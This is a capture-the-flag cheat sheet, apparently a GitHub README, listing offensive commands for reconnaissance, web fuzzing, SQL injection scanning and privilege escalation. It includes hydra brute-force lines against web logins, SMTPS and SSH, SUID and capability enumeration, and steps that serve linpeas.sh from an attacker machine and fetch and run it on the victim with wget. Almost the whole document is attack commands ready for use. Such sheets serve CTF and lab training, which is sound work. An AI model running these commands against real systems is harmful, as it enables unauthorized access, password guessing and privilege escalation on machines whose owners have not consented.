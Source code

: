# CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
`dirsearch -u http://IP`
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something" -V -f`
>HTTP form brute-forcing

`hydra -l bob -P /usr/share/wordlists/rockyou.txt IP http-get "/protected" -V -f`
>HTTP Basic auth

`hydra -l user -P list.lst IP smtps -V -f`
>SMTP/S Brute-forcing

`hydra -l user -P list.lst ssh://IP -V -f`
>SSH Brute-forcing

## PRIVESC
### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty -raw echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`

### Find files with writable permissions
`find / -writable -type  f 2>/dev/null | grep -v "/proc/"`

### List all capabilities recursively
`getcap -r / 2>/dev/null`

### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine

